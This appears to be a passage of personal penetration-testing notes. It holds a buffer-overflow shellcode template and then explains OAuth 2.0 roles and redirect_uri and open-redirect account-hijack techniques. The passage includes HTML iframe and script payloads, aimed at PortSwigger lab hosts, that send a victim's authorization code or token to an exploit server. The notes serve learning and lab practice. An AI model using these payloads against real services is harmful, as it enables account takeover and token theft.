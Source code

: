 ### Shell example

- `shellcode= "A" * 2002 + "\xaf\x11\x50\x62 - this address is from nasm_shell.rb JMP ESP" + "\x90" * 32 + overflowfrommsfvenom`


## OAuth

[Cheatsheet](https://0xn3va.gitbook.io/cheat-sheets/web-application/oauth-2.0-vulnerabilities)

In OAuth 2.0, the client requests access to resources controlled by the resource owner and hosted by the resource server and is issued a different set of credentials than those of the resource owner. Instead of using the resource owner's credentials to access protected resources, the client obtains an access token.

- Resource Owner = ME
- Resource Server = API I want to access
- Client = Web server that wants to access the API
- Auth server = OID server.

### OAuth 2.0

- Oauth that uses implicit grant, this one does not request for a code but goes directly to ask for a token. 
- Hijack account using redirect_uri
  - Intercept the request that asks for a code
  - change the redirect_uri to your server.
  - send payload to victim.
  - If the victim loads the payload your server will get a valid code to continue the flow and get a valid token of the victim

EX. payload

```html
<iframe src="https://oauth-ac361fb21ebd0c90c081232a02a0000f.web-security-academy.net/auth?client_id=onpkl0n5tyylthtolkxnr&redirect_uri=https://exploit-ac961f381edb0cdcc03b232201d80044.web-security-academy.net/exploit&response_type=code&scope=openid%20profile%20email"></iframe> 
```

- Steal token via open redirect example from portswigger.

```html
<script>
  if (!document.location.hash) {
    window.location = 'https://oauth-ac5c1fa71f183ad6c01d63bf029c0093.web-security-academy.net/auth?client_id=nl739ogh6wfprguffv3pu&redirect_uri=https://ac5f1fde1fef3aeec00463d7000f0082.web-security-academy.net/oauth-callback/../../../../post/next?path=https://exploit-ac5f1ff41fce3a1ec0366355011f0094.web-security-academy.net/exploit&response_type=token&nonce=-233235662&scope=openid%20profile%20email'
  } else {
    window.location = '/?'+document.location.hash.substr(1)
  }
</script>
```
